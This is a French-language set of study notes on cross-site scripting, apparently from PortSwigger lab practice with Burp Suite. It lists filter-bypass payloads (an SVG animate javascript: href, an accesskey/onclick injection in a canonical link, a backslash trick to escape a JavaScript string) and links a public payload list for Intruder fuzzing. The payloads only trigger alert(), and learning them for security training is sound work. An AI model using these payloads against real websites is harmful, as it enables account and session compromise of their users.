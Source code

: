 XSS: 

essayer d’abord une balise simple script ou html.

Si il y a des filtres de baliser essayer ce genre de payload:


surligné = le payload ajouté sur BURP SUITE repeater

		                                    	—------------------------------------------------------
payload pas mal quand les event handlers et attributs href sont sont boqués,


à mettre directement dans l’url, le voici non encodé: 

```
<svg>
<a>
<animate attributeName=href values=javascript:alert(1) />
<text x=20 y=20>Click me</text>
</a> 

```

                                        	—------------------------------------------------------

pour un lab particulier j’ai utilisé une liste de payload: https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt

que j’ai mis dans burp intruder, j’ai checké les seuls status 200 et essayé directement dans la webApp, attention aux nombres de requêtes ? 


                                        	—------------------------------------------------------

XSS très intéréssante sur ce Lab: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag 

l'idée est de rediriger avec une accesskey qui déclenche l'XSS. 

https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1) lien du lab avec l'access key encoded


                                        	—------------------------------------------------------

Certaines applications tentent d'empêcher l'intrusion de données hors de la chaîne JavaScript en échappant tout caractère d'apostrophe avec un antislash. Un antislash devant un caractère indique au parseur JavaScript que le caractère doit être interprété littéralement et non comme un caractère spécial tel qu'un terminateur de chaîne. Dans cette situation, les applications font souvent l'erreur de ne pas échapper le caractère antislash lui-même. Cela signifie qu'un attaquant peut utiliser son propre caractère antislash pour neutraliser celui ajouté par l'application.

ce payload : `';alert(document.domain)//`

devient: `\';alert(document.domain)//`

donc on peut utiliser ce genre de payload: `\';alert(document.domain)//`

pour qu'il soit interprété ainsi: `\\';alert(document.domain)//`

